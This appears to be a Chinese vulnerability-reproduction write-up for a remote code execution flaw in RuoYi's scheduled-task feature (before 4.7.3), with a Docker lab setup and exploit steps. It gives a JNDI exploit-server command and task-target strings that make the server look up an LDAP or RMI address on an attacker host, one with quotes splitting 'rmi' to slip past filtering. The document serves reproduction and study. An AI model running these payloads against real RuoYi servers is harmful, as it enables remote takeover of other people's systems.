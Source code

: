 # **ruoyi**-rytask-any-reflection-call-rce

​	若依（RuoYi）是一款基于Spring Boot的快速开发平台，旨在为企业提供一种快速构建应用程序的方式。它基于Spring Boot、MyBatis、Thymeleaf等经典技术组合，内置了部门管理、角色用户、菜单及按钮授权、数据权限、系统参数、日志管理、通知公告等常用模块。

​	若依定时任务的实现是通过反射调来调用目标类，目标类的类名可控导致rce

版本影响<4.7.3

项目地址：https://gitee.com/y_project/RuoYi

参考链接：https://forum.butian.net/share/2796



## 漏洞环境

执行如下命令启动一个ruoyi-v4-6-2：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`将自动跳转到ruoyi登录界面

注：本环境jdk-8u131

![image-20240524112517079](./1.png)

## 漏洞复现

1.JNDI版

开启JNDI服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "mkdir /tmp/jndi-rce"
```

使用后台定时任务，换用调用目标字符串如下后执行任务。

```php
javax.naming.InitialContext.lookup('ldap://192.168.211.1:1389/sfzggg')
```

![image-20240521121720944](./3.png)

![image-20240521121554570](./2.png)



2，rmi版

org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://192.168.211.1:1099/qcfgvp')

3, 其他利用方式

[略]
